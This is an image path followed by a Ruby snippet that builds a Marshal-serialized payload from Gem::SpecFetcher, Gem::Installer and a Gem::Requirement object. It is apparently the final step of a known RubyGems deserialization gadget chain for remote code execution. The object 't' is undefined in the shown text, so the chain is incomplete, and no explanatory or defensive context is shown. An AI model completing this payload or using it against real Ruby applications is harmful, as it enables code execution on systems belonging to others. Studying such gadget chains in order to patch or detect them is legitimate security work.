 ```ruby
r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
print(payload)
```

